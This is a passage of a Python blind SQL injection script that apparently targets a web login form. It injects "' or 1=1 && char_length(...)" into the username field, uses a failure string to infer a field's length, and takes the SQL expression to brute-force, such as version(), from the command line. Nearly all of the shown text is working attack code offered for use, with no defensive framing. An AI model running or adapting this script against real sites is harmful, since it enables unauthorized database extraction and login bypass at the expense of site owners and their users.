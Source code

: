 ```python
		injection = """' or 1=1 && char_length({})={} #""".format(field, x)
		post_data = {
			"uname": injection,
			"psw": "test"
		}
		r = requests.request("POST", url=url, data=post_data)
		if injection_success(r):
			print("[+] Length of field is {} characters".format(x))
			return x
	raise Exception("[-] Couldn't determine field length. Exiting.")

def injection_success(inj_response):
	if fail_string in inj_response.text:
		return False
	else:
		return True

def main():
	if len(sys.argv) > 1:
		field_to_brute = sys.argv[1]
		brute_force_field_value(field_to_brute)
	else:
		print("usage: python blind_sqli.py \"(field_to_brute)\"" \
			"\nexample:\tpython blind_sqli.py \"version()\"")

if __name__ == "__main__":
	main()

```